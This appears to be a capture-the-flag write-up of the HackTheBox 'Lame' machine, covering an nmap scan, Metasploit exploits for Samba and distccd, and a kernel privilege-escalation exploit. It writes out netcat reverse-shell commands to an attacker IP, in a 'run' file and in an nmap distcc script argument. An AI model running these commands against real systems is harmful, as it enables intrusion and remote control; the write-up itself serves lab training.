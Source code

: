 ```yaml
---
title: HackTheBox - Lame write-up
date: 2018-10-19 00:00:00 +2100
categories: [hackthebox, writeup]
tags: [htb, hackthebox, walkthrough]     # TAG names should always be lowercase
---
```

This is an Easy box from HTB Labs. Lame is running multiple vulnerable services through which you can get access to the system. Lets start cracking!!!
##### Nmap Scanning Results
```bash
sudo map -sV -A 10.10.10.3
```
```bash
PORT  | Status | SERVICE | VERSION
------|--------|---------|--------
21/tcp|open    | ftp     |vsftpd 2.3.4
ftp-anon: Anonymous FTP login allowed (FTP code 230) <br />
22/tcp&nbsp;&nbsp;&nbsp;&nbsp;   open  ssh &nbsp;&nbsp;&nbsp;&nbsp;         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) <br />
ssh-hostkey:  <br />
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)<br />
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)<br />
139/tcp &nbsp;&nbsp;&nbsp;&nbsp;  open  netbios-ssn &nbsp;&nbsp;&nbsp;&nbsp;Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br />
445/tcp &nbsp;&nbsp;&nbsp;&nbsp;  open  netbios-ssn &nbsp;&nbsp;&nbsp;&nbsp;Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)<br />
3632/tcp &nbsp;&nbsp;&nbsp;&nbsp; open  distccd &nbsp;&nbsp;&nbsp;&nbsp;distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))<br />

Host script results:<br />
| smb-os-discovery: <br />
|   OS: Unix (Samba 3.0.20-Debian)<br />
|   NetBIOS computer name: <br />
|_   Workgroup: WORKGROUP\x00<br /></p>
```
##### Exploit Searching

So theres is distccd 4.2.4, samba 3.0.20 service are running on the remote machine.
After a quick search on Metasploit and Google found that both the services were vulnerble with public exploit available.

<b>URL:</b> https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

## Exploitation (with Metasploit)
#### Samba
Metasploit Samba Command Execuation module is the first exploit I chose to go with. I know there is auxillary script to confirm this vulnerability but who wants to run that on test machine. One must try those to check the results of those scripts.
Start Metasploit and run the exploit.

<b>Yaay!!</b> We got the access as root user!! 
    
#### distccd
I was curious about this service from the start and wanted to dig more. distccd module is also available in metasploit so lets exploit.

It worked but we got a limited shell meaning we are in as a daemon service not as root user/ standard user. Lets find a way to Privilege Escalate it.

### Privilege Escalation
```bash
uname -a
```
to find out the linux kernel and os version running on the machine.
Remote server kernel running foudn to be vulnerable - linux 2.6.24-16-server


Now Download the Exploit to the local machine : <br />

```bash
wget http://www.exploit-db.com/download/8572 
```

Move to "/var/www/html" and change permission. Open Apache web server on your local atacking machine <br />

```bash
service apache2 start
``` 

Download exploit in remote machine /tmp folder and compile 8572.c <br />

```bash
gcc 8572.c -o exploit 
``` 
Now we need Create file "run" in tmp file as the exploit executes "run" file. <br />

```bash
echo '#!/bin/bash' > run
echo '/bin/netcat -e /bin/bash 10.10.10.15 1234' >> run 
```

Execute below to find pid of udevd <br />

```bash
cat /proc/net/netlink 
```
Start listener on local machine <br />
And execute exploit with pid of udevd.<br />
Got r00t!!!!

## Exploitation (Without Metasploit)
#### Distccd
Distcc service can also be exploited without the use of metasploit by using nmap script.

To test first we run
```bash
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse --script-args="distcc-cve2004-2687.cmd='id'"
```
We got the uid and gid info back meaning this script is working. now we can go ahead and get root shell.
```bash
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.15.102  1234'"
```
Now grab the flags.This was an easy and privilege escalation part was the interesting bit here.
